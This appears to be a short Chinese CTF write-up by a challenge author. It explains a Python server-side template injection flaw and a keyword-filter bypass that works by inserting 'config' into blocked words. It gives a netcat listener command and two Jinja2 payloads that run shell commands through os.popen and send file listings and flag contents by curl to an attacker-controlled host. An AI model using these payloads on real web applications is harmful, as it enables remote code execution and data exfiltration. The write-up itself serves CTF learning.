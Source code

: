 # 你的名字
输入数据有回显，看返回头是python写的后台，猜测有SSTI（加了个php模式的报错和index.php路由不知道有没有骗到某个师傅--）
然后接下来是绕WAF，我写了两个过滤，一个强过滤是匹配`{{`和`}}`，目的是想让各位师傅用远程SSTI把flag打到自己服务器上。

然后是一个简单的单词匹配过滤os等敏感字符，只要FUZZ一下，再实验一下，会找到config这个大多数poc都用不上且过滤排在较后，可以用来绕过过滤。

服务器监听
`nv -lvp port
`

根目录查flag：
`{% iconfigf ''.__claconfigss__.__mconfigro__[2].__subclasconfigses__()[59].__init__.func_glconfigobals.linecconfigache.oconfigs.popconfigen('curl http://yourip:port/ -d `ls / | grep flag`;') %}1{% endiconfigf %}`
读flag：
`{% iconfigf ''.__claconfigss__.__mconfigro__[2].__subclasconfigses__()[59].__init__.func_glconfigobals.linecconfigache.oconfigs.popconfigen('curl http://yourip:port/ -d `cat /flag_1s_Hera`;') %}1{% endiconfigf %}`


